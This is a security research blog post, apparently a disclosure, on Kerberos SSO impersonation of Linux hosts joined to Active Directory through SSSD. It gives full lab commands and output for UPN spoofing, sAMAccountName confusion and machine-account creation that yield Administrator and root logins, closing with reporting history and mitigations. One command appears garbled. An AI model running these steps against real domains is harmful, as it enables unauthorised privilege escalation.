

View the Project on GitHub ASYNC-Security/async-security.github.io

A Long Distance Relationship with Kerberos
Kerberos is an authentication protocol developed by MIT to provide secure authentication over an insecure network, the protocol has since seen widespread adoption, particularly in Microsoft Active Directory Domain Services (AD DS), as well as in other systems such as FreeIPA.

Due to the demand for cross-platform authentication and Single Sign-On (SSO) capabilities, Kerberos has become a critical component in modern authentication systems via intermediaries like System Security Services Daemon (SSSD). This, however, has led to a situation where vendors have their own interpretations (and limitations) within the Kerberos protocol, resulting in a fragmented ecosystem.
This post will specifically focus on the attacks associated with a domain-joined Linux system that supports Kerberos SSO.
Linux Active Directory Integration
In this post, we’ll be using a Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64) system, joined to the mercury.local domain. The primary domain controller (PDC) is a Windows Server 2022 system - c-dc01.mercury.local, this is also the Kerberos Key Distribution Center (KDC) for the domain.
$ realm list
mercury.local
type: kerberos
realm-name: MERCURY.LOCAL
domain-name: mercury.local
configured: kerberos-member
server-software: active-directory
client-software: sssd
required-package: sssd-tools
required-package: sssd
required-package: libnss-sss
required-package: libpam-sss
required-package: adcli
required-package: samba-common-bin
login-formats: %U@mercury.local
login-policy: allow-permitted-logins
permitted-logins:
permitted-groups: Domain Admins@mercury.local
$ hostname -f
L-MGRT-APP001.mercury.local
This domain was joined using the realm command, and authentication services are handled by SSSD., and Domain Admins is the only group permitted to log in to the system.
root@L-MGRT-APP001:/home# cat /etc/sssd/sssd.conf
[sssd]
domains = mercury.local
config_file_version = 2
services = nss, pam
[domain/mercury.local]
default_shell = /bin/bash
krb5_store_password_if_offline = True
cache_credentials = True
krb5_realm = MERCURY.LOCAL
realmd_tags = manages-system joined-with-adcli
id_provider = ad
fallback_homedir = /home/%u
ad_domain = mercury.local
use_fully_qualified_names = True
ldap_id_mapping = True
access_provider = simple
simple_allow_groups = Domain Admins@mercury.local
We can verify that the current configuration works by attempting both password authentication, and Kerberos SSO as the Administrator user.
Password Authentication
The Administrator user’s password has been set to T3stP@ssw0rd123 for this example, and the id command returns the user’s UID, GID, and group memberships.
~$ sshpass -p 'T3stP@ssw0rd123' ssh 'Administrator@MERCURY.LOCAL'@L-MGRT-APP001.mercury.local 'id'
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
Kerberos SSO
Kerberos SSO from Linux requires a valid krb5.conf file. The following configuration is used for this example:
[libdefaults]
dns_lookup_kdc = false
dns_lookup_realm = false
default_realm = MERCURY.LOCAL
[realms]
MERCURY.LOCAL = {
kdc = c-dc01.mercury.local
admin_server = c-dc01.mercury.local
default_domain = mercury.local
}
[domain_realm]
.mercury.local = MERCURY.LOCAL
mercury.local = MERCURY.LOCAL
We can obtain a TGT for the Administrator user, and authenticate to the system using kinit:
~$ echo 'T3stP@ssw0rd123' | kinit Administrator@MERCURY.LOCAL -E
Password for Administrator\@MERCURY.LOCAL@MERCURY.LOCAL:
~$ ssh 'Administrator@MERCURY.LOCAL'@L-MGRT-APP001.mercury.local -K id
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
Scenario 1: UPN Spoofing (Domain Users)
In a DEFCON 31 talk: “A Broken Marriage: Abusing Mixed Vendor Kerberos Stacks” by Ceri Coburn, @EthicalChaos and later, blog post. It was discovered that, given the ability to write to the userPrincipalName of a user in Active Directory, an attacker can impersonate any user in the domain to authenticate to a Linux system that supports Kerberos SSO.
Consider the following scenario, where the gatari-ad user has the ability to write to their own userPrincipalName attribute in Active Directory:
(LDAP)-[C-DC01.mercury.local]-[mercury\gatari-ad]
PV > Get-DomainUser -Identity 'gatari-ad' -Select sAMAccountName,userPrincipalName
sAMAccountName : gatari-ad
userPrincipalName : gatari@mercury.local
We can modify our userPrincipalName to the Administrator user, do note that this will not work if the Administrator@mercury.local UPN is already in use by another user, as the userPrincipalName must be unique across the domain.
~$ bloodyAD --host 'C-DC01.mercury.local' -u 'gatari-ad' -p 'P@ssw0rd' set object 'gatari-ad' 'userPrincipaly.local'
[+] gatari-ad's userPrincipalName has been updated
(LDAP)-[C-DC01.mercury.local]-[mercury\gatari-ad]
PV > Get-DomainUser -Identity 'gatari-ad'
cn : gatari
distinguishedName : CN=gatari,CN=Users,DC=mercury,DC=local
name : gatari
objectGUID : {05e6a3b7-d036-4846-bbd1-521dce60468e}
userAccountControl : NORMAL_ACCOUNT [512]
badPwdCount : 0
badPasswordTime : 16/07/2025 10:15:10 (today)
lastLogoff : 1601-01-01 00:00:00+00:00
lastLogon : 16/07/2025 10:22:51 (today)
pwdLastSet : 16/07/2025 09:01:02 (today)
primaryGroupID : 513
objectSid : S-1-5-21-1865292683-1165865761-2598954431-1689
sAMAccountName : gatari-ad
sAMAccountType : SAM_USER_OBJECT
userPrincipalName : Administrator@mercury.local
objectCategory : CN=Person,CN=Schema,CN=Configuration,DC=mercury,DC=local
Password Authentication
Contrary to the expectation that this only works under the pretense of Kerberos SSO, based on my testing; this also works with password authentication. We can now authenticate to the Linux system as the Administrator user using the gatari-ad credentials.
~$ sshpass -p 'P@ssw0rd' ssh 'Administrator@mercury.local'@L-MGRT-APP001.mercury.local id
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
After authenticating to the system, we can loot the cached TGT at /tmp/krb5cc$(id -u):
administrator@mercury.local@L-MGRT-APP001:~$ ls -la /tmp/krb5cc_7000500_r9cKSh
-rw------- 1 administrator@mercury.local domain users@mercury.local 1406 Jul 16 18:54 /tmp/krb5cc_7000500_r9cKSh
We’ll find that the TGT belongs to the gatari-ad user, as expected:
~$ describeTicket.py krb5cc_7000500_r9cKSh
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key : 5ba238ac341ddaddbe2f7e4d98d5114f0887263bb5d7926bd42f0c2006a1b8dc
[*] User Name : gatari-ad
[*] User Realm : MERCURY.LOCAL
[*] Service Name : krbtgt/MERCURY.LOCAL
[...snip...]
[*] KeyType : aes256_cts_hmac_sha1_96
[*] Base64(key) : W6I4rDQd2t2+L35NmNURTwiHJju115Jr1C8MIAahuNw=
[*] Decoding unencrypted data in credential[0]['ticket']:
[*] Service Name : krbtgt/MERCURY.LOCAL
[*] Service Realm : MERCURY.LOCAL
[*] Encryption type : aes256_cts_hmac_sha1_96 (etype 18)
But, we retain the local privileges of the legitimate Administrator@mercury.local user on the system.
administrator@mercury.local@L-MGRT-APP001:~$ id
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
Kerberos SSO
Similarly, we can obtain a TGT for the gatari-ad user, and authenticate to the system using kinit:
~$ echo 'P@ssw0rd' | kinit 'Administrator'@MERCURY.LOCAL -E
Password for Administrator\@MERCURY.LOCAL@MERCURY.LOCAL:
~$ ssh 'Administrator@MERCURY.LOCAL'@L-MGRT-APP001.mercury.local -K id
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
Scenario 2: UPN Spoofing (Local Users)
In the previous scenario, we were able to impersonate a domain user by modifying the userPrincipalName attribute in Active Directory. However, this attack can also be extended to local users on the Linux system.
bloodyAD --host 'C-DC01.mercury.local' -u 'gatari-ad' -p 'P@ssw0rd' set object 'gatari-ad' 'userPrincipalName' -v 'root'
[+] gatari-ad's userPrincipalName has been updated
Based on my testing, this only works with Kerberos SSO, and not password authentication. We can now authenticate to the Linux system as the root user using the gatari-ad credentials.
~$ echo 'P@ssw0rd' | kinit 'root' -E
Password for root@MERCURY.LOCAL:
~$ ssh 'root'@L-MGRT-APP001.mercury.local id
uid=0(root) gid=0(root) groups=0(root)
Scenario 3: sAMAccount Name Confusion
Based on the research by Ceri Coburn, it is clear that the sssd service interprets incoming authentication in a potentially confusing manner. After further testing, and inspired by a user named lwo on the Vulnlab discored, we can also impersonate a user by simply creating a machine account with the sAMAccountName as any local user.
MachineAccountQuota
In your typical Active Directory environment, there is a limit on the number of machine accounts that can be created in a domain, this is controlled by the MachineAccountQuota setting. By default, this is set to 10, meaning that any user with sufficient privileges can create up to 10 machine accounts in the domain.
With this setting, we can create a machine account with the sAMAccountName of root, and then use this account to authenticate to the Linux system as the root user.
~$ addcomputer.py 'mercury.local'/'gatari-ad':'P@ssw0rd' -computer-name 'root' -computer-pass 'P@ssw0rd123'
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[*] Successfully added machine account root$ with password P@ssw0rd123.
~$ echo 'P@ssw0rd123' | kinit 'root'
~$ ssh 'root'@L-MGRT-APP001.mercury.local -K id
uid=0(root) gid=0(root) groups=0(root)
Writing to the sAMAccountName
Similarly, if we have the ability to write to the sAMAccountName of a user; we can perform the same attack.
~$ bloodyAD --host 'C-DC01.mercury.local' -u 'gatari-ad' -p 'P@ssw0rd' set object 'gatari-ad' 'sAMAccountName' -v 'root'
[+] gatari-ad's sAMAccountName has been updated
echo 'P@ssw0rd' | kinit 'root' -E
Password for root@MERCURY.LOCAL:
ssh 'root'@L-MGRT-APP001.mercury.local -K id
uid=0(root) gid=0(root) groups=0(root)
In this case, we can also authenticate with password authentication, as the sAMAccountName is used to look up the user in Active Directory.
sshpass -p 'P@ssw0rd' ssh 'root'@L-MGRT-APP001.mercury.local id
uid=0(root) gid=0(root) groups=0(root)
History of the Issue
An attack has been reported as CVE-2020-25717 in Samba, which documents a similar vector; which has since been patched in Samba 4.13.14 and later.
The easiest example to illustrate this is if an attacker creates an account named root (by renaming a MachineAccountQuota based machine account), and asks for a login without a Kerberos PAC. Between obtaining the ticket and presenting it to a server, the attacker renames the user account to a different name. Samba attempts to look up “DOMAIN\root”, which fails (as this no longer exists) and then falls back to looking up user “root”, which will map to the privileged UNIX uid of 0.
As for the issues discussed in this post, there are no known patches or mitigations available at the time of writing nor does it appear that any are forthcoming.
We have reported this issue to sssd in #8021, where it has been acknowledged but unlikely to be fixed in the near future; citing the sssd_krb5_localauth_plugin plugin as a mitigation for this issue.
to avoid this kind of issues SSSD provides a localauth plugin, please see man sssd_krb5_localauth_plugin about how to configure it.
Mitigations
-
You can monitor for any changes to the
userPrincipalNameorsAMAccountNameattributes in Active Directory, as well as ensuring that users are not able to write to these attributes. -
If you are using
SSSD, you can also configure thesssd_krb5_localauth_pluginplugin to prevent this issue. You should also disableKerberos SSOon the Linux system if you do not require it.